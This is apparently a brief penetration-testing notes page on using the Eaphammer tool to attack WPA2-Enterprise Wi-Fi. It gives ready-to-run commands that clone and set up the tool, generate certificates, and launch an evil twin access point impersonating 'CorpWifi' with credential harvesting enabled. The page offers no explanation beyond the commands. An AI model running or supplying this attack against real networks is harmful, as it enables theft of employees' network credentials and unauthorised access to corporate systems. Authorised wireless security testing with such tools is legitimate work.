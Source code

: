 # Cracking Enterprise Networks Using Eaphammer Tool

**targeted evil twin attacks against WPA2-Enterprise networks.**

**Installation**

```bash
git clone https://github.com/s0lst1c3/eaphammer.git
./kali-setup
# generate certificates
./eaphammer --cert-wizard

# launch attack
./eaphammer -i wlan0 --channel 4 --auth wpa-eap --essid CorpWifi --creds
```

![image.png](../../../.gitbook/assets/image.png)
